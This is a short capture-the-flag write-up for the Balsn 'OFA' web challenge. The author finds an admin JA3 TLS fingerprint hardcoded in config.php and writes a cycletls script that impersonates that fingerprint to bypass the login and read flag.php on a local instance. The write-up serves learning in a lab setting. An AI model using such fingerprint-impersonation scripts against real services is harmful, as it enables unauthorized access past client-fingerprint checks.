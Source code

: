 ```yaml
---

title: "OFA (Balsn)"
date: 2023-08-10T11:30:03+00:00
tags: ["web","JA3 impersonate"]
categories: ["CTFs"]
author: "0x0Pwn"
image: "/CTFs/1-saas.png"
comments: false
description: "This is a friendly server machine that is vulnerable because we can impersonate the JA3 signature."

---
```


## Room Information

- Room name: OFA
- Difficulty level: unknown (easy I think)
- Room link: https://balsnctf.com/challenges

![Untitled](/CTFs/OFA.png)

## Tools Used

- Docker
- Visual Studio
- Research

## Enumeration

On this type of machine, there is no need to analyse possible directories because it is not a BlackBox, we have all the code of the web page…

A screenshot of the website page:

![Untitled](/CTFs/1-OFA.png)

## Exploiting

After taking a look of the the firsts archives like index.php, I found one called config.php where i found very fast a vulnerability.

What the vulnerability did was the following: 

1- Define in a variable the JA3 signature that is unique for each client (coincidentally they leave the user admin signature here...). 

2- Then they compare it with the signature that is generated when you enter the web page with your browser…

![Untitled](/CTFs/2-OFA.png)

So the only thing left was to send a request to flag.php with the JA3 that was in config.php since that is the user admin, and we could bypass the login panel and access flag.php directly.

I learn some info of JA3 on this website → [Impersonating JA3 Fingerprints. Researchers: Max Harley, Matthew… | by Matthew Rinaldi | CU Cyber | Medium](https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42)

Then I look for some scripts of JA3 impersonating and I found one which I then modify to this:

```tsx
const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
  // Initiate CycleTLS
  const cycleTLS = await initCycleTLS();

  // Send request
  const response = await cycleTLS('https://localhost:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60',
    headers:
    {
      'Content-Type' : 'application/x-www-form-urlencoded'
    }

  }, 'post');

  console.log(response);

  // Cleanly exit CycleTLS
  cycleTLS.exit();

})();
```

Then to compile the file I did on my cmd: `tsc ofa-srcipt.ts` and then to execute node `ofa-srcipt.js`

![Untitled](/CTFs/4-OFA.png)

And there is the flag…👹

## Lessons Learned

- What insights did you gain from the room?
    
    I learn more about JA3
    
- Where there any novel tools or techniques employed?
    
    The use of docker.
